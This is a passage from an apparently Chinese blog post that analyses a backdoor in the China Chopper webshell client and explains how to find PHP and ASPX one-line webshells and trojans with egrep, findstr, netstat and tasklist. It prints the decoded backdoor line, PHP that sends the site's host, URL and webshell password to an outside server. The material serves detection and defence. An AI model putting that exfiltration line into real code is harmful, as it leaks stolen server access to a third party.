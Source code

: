将中间base64加密字段进行第二次解密：

```php
if($_COOKIE['Lyke']!=1){setcookie('Lyke',1);@file('http://www.api.com.de/Api.php?Url='.$_SERVER['HTTP_HOST'].$_SERVER['REQUEST_URI'].'&Pass='.key($_POST));}
```

可以看到这个菜刀明显存在后门。

另外，在X-Forwarded-For这里是值得怀疑的地方，因为这里的IP是别的地方的，网上还没找到关于这种情况是不是后门的相关内容。这个地方大家可以研究一下，个人觉得是比较隐蔽的后门吧，但是问题是我所用的几个版本的菜刀在X-Forwarded-For这里都是有这个别的地方的IP的。

## 0x04 Linux、Windows下查找菜刀一句话木马

Linux：

- - 使用egrep命令进行正则匹配
  - egrep -re ' <php\s\@eval[(]$*POST[.+][)];?' \*.php*

Windows：

- 通过findstr命令加上正则表达式搜索文件
- findstr /R "<php.\@eval[(]$_POST.*[)];?" *.php

若是asp一句话木马，则需要修改正则表达式即可：

- egrep -re '[[]\%\@\sPage\sLanguage=.Jscript.\%[](mailto:]/%/@/sPage/sLanguage=.Jscript./%[)][<]\%eval.Request.Item.+unsafe' *.aspx
- findstr /R "[[]\%\@.Page.Language=.Jscript.\%[](mailto:]/%/@.Page.Language=.Jscript./%[)][<]\%eval.Request.Item.*unsafe" *.aspx

## 0x05 其他脚本后门分析

一般的方法就是，通过Firefox的F12即开发者工具到Network网络查看，如果在URL下还有访问其它网页的信息，那么基本就是存在后门。

## 0x06 手动查找后门木马

1、系统的启动项，在运行输入msconfig，在打开的系统配置实用程序里的启动列表查看，并且服务也要注意一下，可以使用360安全卫士等软件的开机加速功能，来查看有无异常的可以启动项和服务项，因为在后门木马中99%都会注册自己为系统服务，达到开机自启动的目的，如果发现可疑项直接打开相应的路径，找到程序文件，直接删除并且禁止自启动；

2、查看系统关键目录system32和系统安装目录Windows下的文件。然后查看最新修改的文件中有没有可疑的可执行文件或dll文件，这两个地方都是木马最喜欢的藏身的地方了（记得先设置显示所有的文件和文件夹）；

3、观察网络连接是否存在异常，还有输入netstat -ano命令查看有没有可疑或非正常程序的网络连接，尤其注意一下远程连接的端口，如果有类似于8000等端口就要注意了，8000是灰鸽子的默认端口。

这里重点讲一下第三点：

1、 查看进程：

```text
netstat-an
```

netstat -ano 多显示一个PID，先查看established的进程中所连接的外部地址是否是一个可疑的、没见过的地址，如果本身主机没有进行什么网络访问的话就需要警惕了，先记住这个可疑进程的PID。

tasklist /svc，输入这个命令，通过对应的PID找到对应的进程名。

2、 查看服务：

可以使用工具XueTr来进行更为简便的操作，使用其查看服务和进程等信息（注意的一点，微软服务的描述在最后都是由句号的，而第三方的服务是没有的）

先右键到dll文件的路径中将dll文件删除，然后到相应的服务中将其删除掉，最后将可疑进程终止掉。